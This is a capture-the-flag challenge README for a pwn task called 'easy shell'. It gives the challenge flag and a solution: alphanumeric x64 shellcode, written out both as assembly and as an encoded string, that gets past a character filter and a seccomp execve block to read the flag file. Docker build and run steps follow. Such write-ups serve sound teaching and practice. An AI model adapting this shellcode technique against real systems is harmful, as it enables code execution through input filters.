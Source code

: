 #### easy shell

##### Description

Go get a shell while it's possible

##### Points

200/250

##### Flag

hackim19{to_read_or_not_to_r34d}

##### Solution

input is written to RWX page and then executed. But only Alphanumeric chars are
allowed. Since there's abundance of x64 execve on the internet, `execve` has
been filtered using seccomp. A helper `dump` function is provided to dump a file
byte by byte

```
pop rax; xor rax, 0x32323232; xor rax, 0x32323569; push 0x67616c66; push rsp; push rsp; pop rcx; xor rdi, QWORD PTR [rcx] ; push rax
```
XH52222H5i522hflagTTYH39P

##### Build
```shell
docker build -t code-alpha .
```
##### Run:
```shell
docker run -p 4010:4010 code-alpha:latest
```

Notes:
Port is changeable. Change it in run command.
Change the flag to match the flag format.
